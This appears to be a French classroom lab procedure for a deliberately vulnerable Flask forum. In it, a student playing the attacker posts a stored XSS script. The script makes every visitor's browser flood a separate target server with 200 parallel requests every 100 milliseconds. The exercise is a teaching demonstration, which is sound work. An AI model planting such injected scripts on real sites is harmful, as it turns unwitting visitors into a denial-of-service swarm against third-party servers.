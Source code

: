 # Procédure

## Partir le serveur cible sur le poste du prof

## Partir le forum sur la machine locale (poste du prof)

- se placer dans le projet forumPassoire **cd /path/to/forumPassoire**
- lancer le serveur flask avec la commande **python3 app.py**
- valider avec un navigateur en allant sur l'adresse **http://127.0.0.1:5000**
- afficher l'adresse IP du prof pour que chaque étudiant puisse se connecter au forum

## Créer un post qui envoie des requêtes

- choisir un étudiant X, le pirate
- les autres sont les utilisateurs du forum
- X navigue vers http://127.0.0.1:5000/create_post
- X entre le code suivant dans le post:
```html
Mon message qui va s'afficher
<script>
// Send 100 requests in parallel 
const sendRequests = async () => {
    const url = 'http://10.10.39.27/';
    const requests = [];

    for (let i = 0; i < 200; i++) {
        requests.push(fetch(url, { mode: 'no-cors'}));
    }

    try {
        const responses = await Promise.all(requests);
        const results = await Promise.all(responses.map(response => response.text()));
        console.log(results);
    } catch (error) {
        console.error('Error with requests:', error);
    }
};
// Example: Send 100 requests in parallel
setInterval(sendRequests, 100);
</script>
</script>
```
- X envoie son post
- Tout le monde recharge la page du forum
